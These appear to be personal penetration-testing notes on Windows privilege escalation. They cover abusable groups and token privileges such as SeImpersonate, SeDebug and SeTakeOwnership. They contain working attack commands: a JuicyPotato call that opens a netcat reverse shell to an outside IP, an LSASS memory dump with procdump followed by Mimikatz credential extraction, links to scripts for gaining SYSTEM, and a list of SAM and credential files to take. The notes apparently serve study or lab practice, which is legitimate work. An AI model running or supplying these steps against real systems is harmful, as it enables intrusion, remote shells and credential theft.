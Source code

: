 
### Authority Levels:
1. NT Authority\ System 
2. administrator 
3. Administrators 
4. non-privileged domain user part of admin group.
5. Domain user part of a Administrator group.

## Authorisation Process 
Every Security Identifier is identified by a unique Security Identifier ([SID)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers)

Users access tokens are compared against [Access Control Entries (ACE)](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-entries)
 ![[Windows Authorisation Process.png]]
 https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-principals

## Group/ User Rights and Privileges 
[Master  List](https://ss64.com/nt/syntax-security_groups.html)
### Groups

##### Default Administrators 
	Domain Admins and Enterprise Admins are "Super Groups"
##### Server Operators 
	Members can modify services, access SMB shares and backup files
##### Backup Operators
	Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.
##### Print Operators
	Members can logon to DCs locally and "trick" windows into loading a malicious driver. 
##### Hyper-V Administrators
	If a Virtual DCs is present these should be considered domain admins
##### Account Operators
	Modify non-protected accounts and groups in the domain
#### Remote Desktop Users
	Not given any useful permission by default but often given rights such as: "Alow Login through RDP" and can move laterally through RDP
##### Remote Management Users 
	Can log on to DCs with PSremoting
#### Group Policy Creator Owners
	can create new GPOs but would never be delegated permissions to link GPOs to a container like a DC
#### Schema Admins
	Members can modify the Active Directory schema structure and backdoor any-to-be created Group/GPO by adding a compromised account to the default object ACL.
#### DNS Admins
	Can load DLL in a DC. Cannot restart the DNS server. Load a malicious DLL and wait for reboot as a persistence mechanism.  
	May often result in a crash. better to exploit a WDAP record. 
	https://cube0x0.github.io/Pocing-Beyond-DA/
## Users
https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment
List user assigned rights
```shell-session
whoami /priv
```
#### Standard rights 
Administrator	```
	SeIncreaseQuotaPrivilege
	SeSecurityPrivilege
	SeTakeOwnershipPrivilege
	SeLoadDriverPrivilege
	SeSystemProfilePrivilege
	SeSystemtimePrivilege
	SeProfileSingleProcessPrivilege
	SeIncreaseBasePriorityPrivilege
	SeCreatePagefilePrivilege
	SeBackupPrivilege
	SeRestorePrivilege
	SeShutdownPrivilege 
	SeDebugPrivilege    
	SeSystemEnvironmentPrivilege
	SeChangeNotifyPrivilege
	SeRemoteShutdownPrivilege 
	SeUndockPrivilege
	SeManageVolumePrivilege
	SeImpersonatePrivilege
	SeCreateGlobalPrivilege
	SeIncreaseWorkingSetPrivilege
	SeTimeZonePrivilege
	SeCreateSymbolicLinkPrivilege
	SeDelegateSessionUserImpersonatePrivilege
			```
User  ```
	SeChangeNotifyPrivilege
	SeIncreaseWorkingSetPrivilege
			```
Backup Operator ```
	SeShutdownPrivilege 
	SeChangeNotifiyPrivilege
	SeIncreaseWorkingSePrivilege
			```


## SeImpersonate and SeAssignPrimaryToken
SeImpersonate privilege is needed to utilise tokens. 
	[Only given to administrative accounts.](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)
Can call other process token to escalate privileges to system. 
	Make a call to the WinLogon process to get a system token.
	[Trick a process into running as System to connect to their process.](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)
	
#### Use JuicyPotato to escalate privileges.
```shell-session
xp_cmdshell <dir to file>JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c nc.exe 172.16.7.240 4000 -e cmd.exe" -t * 

sudo nc -lnvp 8443 
```
On Windows Server 2019 and Windows 10 1809+ you need to use PrintSpoofer / RoguePotato exploits instead.

### SeDebugPrivilige
Run an application or service with troubleshooting with this privilege.
By default only administrators are assigned this.
Use [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) to leverage the privilege and dump process memory. *(LSASS WORKS WELL)*

```shell-session 
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

This can then be loaded into Mimikatz

```shell-session
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### Manual dump of LSASS memory from task manager.
![[Dump File.png]] 
[Remote Code Execution](https://decoder.cloud/2018/02/02/getting-system/)
[Script to use:](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
Run with this syntax :

```powershell
.\psgetsys.ps1 [MyProcess]::CreateProcessFromParent(<system_pid>,"c:\windows\system32\cmd.exe" <or any cmd>,"")
```

get the system pid with `tasklist`
![[psgetsys script.png]]

### SeTakeOwnershipPrivilige
Allows a user to take ownership of any "securable object", active Directory objects, NTFS files/folders, printers, registry keys, services and processes.
Assigns WRITE_OWNER rights
Most commonly service user accounts. 
![[SeTakeOwnership Privilige.png]]
- `Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`
#### [How to leverage:](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77)
##### [Script to use:](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
check you have privilege
```shell-session
whoami /priv
```
Import Script 
```powershell
Import-Module .\Enable-Privilege.ps1

.\EnableAllTokenPrivs.ps1
```
Target an interesting file you have found:
```powershell
Get-ChildItem -Path '<file to target>' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```
Check File Ownership:
```shell-session
cmd /c dir /q '<path to folder>'
```
Take Ownership of file:
```shell-session
takeown /f '<path to file>
```
Confirming Ownership Changed:
```powershell
Get-ChildItem -Path <path to file>' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```
ACL may need to be modified:
```shell-session
icacls '<path to file>' /grant <username>:F
```
Interesting Files:
	```
```bash
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
passwords.*
pass.*
creds.*
*.kdbx
```

